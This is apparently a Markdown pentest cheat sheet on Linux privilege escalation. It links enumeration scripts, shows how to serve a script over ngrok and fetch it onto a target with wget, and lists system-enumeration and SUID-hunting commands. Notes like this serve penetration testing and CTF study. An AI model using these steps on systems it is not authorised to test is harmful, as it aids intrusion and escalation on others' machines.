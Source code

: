 # Privilege Escalation

### Scripts : 

- **LinPeas**: [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- **LinEnum:** [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)[](https://github.com/rebootuser/LinEnum)
- **LES (Linux Exploit Suggester):** [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
- **Linux Smart Enumeration:** [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
- **Linux Priv Checker:** [https://github.com/linted/linuxprivchecker](https://github.com/linted/linuxprivchecker)
- 

### Send the script to the target machine :
```bash
python3 -m http.server 8000 		  # Open a local web server
ngrok http 8000						  # Forward the port using nkrok
wget https://ngrok.io:port/linEnum.sh # Download the file
```

## Enumeration

### System informations
```bash
hostname
uname -a            # useful when searching for kernel vulnerabilities
cat /proc/version   # Provides information about the target system processes
cat /etc/issue      # Some information about the operating system
ps                  # Enumerate processus
ps -A
ps axfj
netstat             # Enumerate open ports
netstat -ltp        # Enumerate listening tcp ports and gives PID
netstat -ano
netstat -tunl
ss -tunlp
```


### Abusing SUIDs 
##### Enumerate SUIDs
```bash
find / -perm -u=s -type f 2>/dev/null
```
or
```bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```
then search suspect SUID in https://gtfobins.github.io
